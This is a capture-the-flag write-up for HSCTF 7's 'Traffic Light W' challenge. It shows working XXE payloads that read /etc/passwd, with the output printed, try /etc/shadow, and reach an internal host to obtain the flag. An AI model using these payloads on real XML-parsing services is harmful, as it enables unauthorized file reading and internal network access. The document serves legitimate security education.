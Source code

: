 ```yaml
---
title: Traffic Light W
date: 2020-06-07
tags: web, traffic lights
ctf: HSCTF 7
slug: /ctf-writeups/traffic-light-w
---
```


## Problem
```
🚦Can you figure out what's going on with this shady company?

https://traffic-light-w.web.hsctf.com/

Author: meow
```

## Solution
Visiting the webpage brings us to the dashboard of Shady Traffic Light Company. We are shown an seemingly meaningless [graph](./files/traffic-graph.png) and the status of five traffic lights:

![Image showing the status of the five traffic lights](./files/traffic-status.png)

We note that two of the five traffic lights are online, that the lights seem to run on Docker (```Docker Hostname``` is one of the table headers), and that there is a button to upload firmware to the traffic lights.

Trying to upload to Traffic Light 1004 gives us an error:
```
1004
Error: High CPU Usage
```

However, Traffic Light 1001 seems to work. We are greeted with a page to upload our XML firmware:
![Image showing the interface to upload XML firmware](./files/upload-firmware.png)

There is a provided example, with the following script:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<root>
  <content>Red</content>
</root>
```

Running the example displays the word ```Red```, so the traffic light seems to parse and run our given XML input. We most likely need to run an XXE (XML External Entity) attack for LFI (Local File Inclusion), to access files stored on the server that we would unable to access otherwise.

We can create a payload that attempts to access ```/etc/passwd``` to see if XXE works:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>
    <content>&xxe;</content>
</root>
```

The page displays ```/etc/passwd```, confirming that XXE is possible:
![root:x:0:0:root:/root:/bin/ash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/mail:/sbin/nologin news:x:9:13:news:/usr/lib/news:/sbin/nologin uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin man:x:13:15:man:/usr/man:/sbin/nologin postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin cron:x:16:16:cron:/var/spool/cron:/sbin/nologin ftp:x:21:21::/var/lib/ftp:/sbin/nologin sshd:x:22:22:sshd:/dev/null:/sbin/nologin at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin games:x:35:35:games:/usr/games:/sbin/nologin cyrus:x:85:12::/usr/cyrus:/sbin/nologin vpopmail:x:89:89::/var/vpopmail:/sbin/nologin ntp:x:123:123:NTP:/var/empty:/sbin/nologin smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin guest:x:405:100:guest:/dev/null:/sbin/nologin nobody:x:65534:65534:nobody:/:/sbin/nologin nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin](./files/xxe-result.png)

Nothing stands out as a flag, so we can try a few other files, such as ```/etc/shadow```. This would normally store encrypted user credentials. Modifying our payload to access ```file:///etc/shadow``` yields no response, so the file is read protected. Going back to the list of traffic lights, there was a second traffic light with the hostname of ```traffic-light-1004``` which we were unable to upload firmware to. The port is also port ``80``, which is commonly used for HTTP. Perhaps we could try accessing that:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://traffic-light-1004">]>
<root>
<content>&xxe;</content>
</root>
```

This payload was successful, and we get the following message:
```
If you're reading this... You found out that the traffic lights are fake. Don't tell anyone. Here's a flag to make you happy: flag{shh_im_mining_bitcoin} 
```

**Flag:** ```flag{shh_im_mining_bitcoin} ```

